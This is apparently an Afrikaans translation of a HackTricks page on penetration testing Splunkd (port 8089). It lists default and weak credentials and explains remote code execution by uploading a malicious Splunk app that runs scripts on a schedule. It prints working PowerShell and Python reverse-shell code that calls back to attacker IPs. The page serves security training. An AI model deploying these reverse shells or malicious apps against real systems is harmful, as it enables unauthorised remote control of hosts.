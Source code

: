 # 8089 - Pentesting Splunkd

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## **Basiese Inligting**

* Log analitiese hulpmiddel wat gebruik word vir data versameling, analise, en visualisering
* Gewoonlik gebruik in sekuriteitsmonitering en besigheidsanalise
* Standaard poorte:
* Webbediener: 8000
* Splunkd diens: 8089

### Kwetsbaarheid Vektore:

1. Gratis Weergawe Exploitatie

* Proefweergawe omskakel outomaties na gratis weergawe na 60 dae
* Gratis weergawe het nie outentisering nie
* Potensiële sekuriteitsrisiko as dit onbeheerd gelaat word
* Administrateurs mag sekuriteitsimplikasies oor die hoof sien

2. Kredensiaal Swakhede

* Ou weergawe: Standaard kredensiale `admin:changeme`
* Nuwe weergawes: Kredensiale wat tydens installasie gestel word
* Potensiaal vir swak wagwoord gebruik (bv. `admin`, `Welcome`, `Password123`)

3. Afgeleë Kode Uitvoering Geleenthede

* Meerdere kode uitvoeringsmetodes:
* Bediening-kant Django toepassings
* REST eindpunte
* Geskryfde insette
* Alarm skripte
* Kruis-platform ondersteuning (Windows/Linux)
* Geskryfde insette kan loop:
* Bash skripte
* PowerShell skripte
* Batch skripte

Sleutel Exploitatie Potensiaal:

* Sensitiewe data stoor
* Gebrek aan outentisering in gratis weergawe
* Meerdere vektore vir potensiële afgeleë kode uitvoering
* Moontlikheid om geskrifte insette te benut vir stelselskompromie

### Shodan

* `Splunk bou`

## RCE

### Skep Aangepaste Toepassing

Splunk bied 'n gesofistikeerde metode vir afgeleë kode uitvoering deur aangepaste toepassingsontplooiing, wat sy kruis-platform skripting vermoëns benut. Die kern exploitatie tegniek draai om die skep van 'n kwaadwillige toepassing wat omgekeerde skale op beide Windows en Linux stelsels kan uitvoer.

'n Aangepaste toepassing kan **Python, Batch, Bash, of PowerShell skripte** uitvoer. Boonop, **Splunk kom met Python geïnstalleer**, so selfs in **Windows** stelsels sal jy in staat wees om python kode uit te voer.

Jy kan [**hierdie**](https://github.com/0xjpuff/reverse_shell_splunk) voorbeeld gebruik met die **`bin`** wat 'n voorbeeld bevat vir [Python](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/rev.py) en [PowerShell](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/run.ps1). Of jy kan jou eie skep.

Die exploitatie proses volg 'n konsekwente metodologie oor platforms:
```
splunk_shell/
├── bin        (reverse shell scripts)
└── default    (inputs.conf configuration)
```
Die kritieke konfigurasie lêer `inputs.conf` aktiveer die skrip deur:

* `disabled = 0` in te stel
* 'n 10-sekonde uitvoeringsinterval te konfigureer
* Die skrip se brontipe te definieer

Ontplooiing is eenvoudig:

1. Skep die kwaadwillige toepassingspakket
2. Stel 'n luisteraar (Netcat/socat) op die aanvalmasjien op
3. Laai die toepassing op deur Splunk se koppelvlak
4. Trigger outomatiese skripuitvoering by opgelaai

Voorbeeld Windows PowerShell omgekeerde skulp:
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush()
};
$client.Close()
```
Voorbeeld Linux Python omgekeerde skulp:
```python
import sys, socket, os, pty
ip = "10.10.14.15"
port = "443"
s = socket.socket()
s.connect((ip, int(port)))
[os.dup2(s.fileno(), fd) for fd in (0, 1, 2)]
pty.spawn('/bin/bash')
```
### RCE & Privilege Escalation

In die volgende bladsy kan jy 'n verduideliking vind oor hoe hierdie diens misbruik kan word om voorregte te verhoog en volharding te verkry:

{% content-ref url="../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md" %}
[splunk-lpe-and-persistence.md](../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md)
{% endcontent-ref %}

## References

* [https://academy.hackthebox.com/module/113/section/1213](https://academy.hackthebox.com/module/113/section/1213)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) of die [**telegram group**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
